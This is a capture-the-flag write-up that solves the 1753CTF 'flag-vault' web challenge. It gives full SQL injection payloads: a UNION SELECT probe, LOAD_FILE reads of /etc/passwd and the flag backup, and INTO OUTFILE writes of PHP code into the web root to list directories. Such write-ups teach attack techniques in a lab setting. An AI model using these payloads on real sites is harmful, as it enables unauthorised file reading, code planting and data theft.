







We are given a website with no source code. It appears to be a blog with login functionality.



There are a few things we can get from this:

- SQL Injection is possible using some kind of search functionality
- The flag is probably somewhere within `/var/www/html/backups/`
- We can probably execute php code in some creative way given that they are telling us what functions are blacklisted.

After clicking around on the page, I found search functionality at `https://flag-vault-5a37f69100fc.1753ctf.com/?search=vault`

Placing a single quote here confirms the site is vulnerable to SQL Injection:



After going through the normal motions, I can see that there are three columns:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT null, null, null;-- -
```

We see an error about a string not being a date string, so I can quickly fix that:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", "aaaa";-- -
```

I can see that the `aaaa` from the above is rendered on the page:



I now tried to use the `LOAD_FILE` function to see the content of a file on the system:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", LOAD_FILE("/etc/passwd");-- -
```

This was successful:



So now we have arbitrary read. We just need to find the filename of the flag. I tried to guess some common spots `/flag`, `.flag.txt`, etc, but came up short. Remembering the hint that there is a backup in `/var/www/html/backups`, I decided to look for a method to list directories.

Trying to embed PHP in a "dumb" way does not work, however I discovered that we have write permissions to the current folder:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", 'echo hello' into outfile '/var/www/html/meow.php';-- -
```

Going to this file on the remote server, I see the output



Googling around, I see this piece of code all over the internet indicatig how we can list all files given a restircted list of functions:

```
<?php $t = new RecursiveDirectoryIterator("/var/www/html");foreach(new RecursiveIteratorIterator($t) as $file =>$key) { echo $file."<br/>"; } ?>
```

So I can now run:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", '<?php $t = new RecursiveDirectoryIterator("/var/www/html");foreach(new RecursiveIteratorIterator($t) as $file =>$key) { echo $file."<br/>"; } ?>' into outfile '/var/www/html/meow2.php';-- -
```

Going there, I see that this has worked quite well:



and that I can see the supposed flag location `/var/www/html/backups/flags_1677599396982.bak`

I'm unable to go to `https://flag-vault-5a37f69100fc.1753ctf.com/backups/flags_1677599396982.bak` to view the flag due to permissions issues, however using my arbitrary read from earlier:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", LOAD_FILE("/var/www/html/backups/flags_1677599396982.bak);-- -
```

yeilds the flag:



Flag: `1753c{you_c4n_filter_but_you_c4nt_hide}`
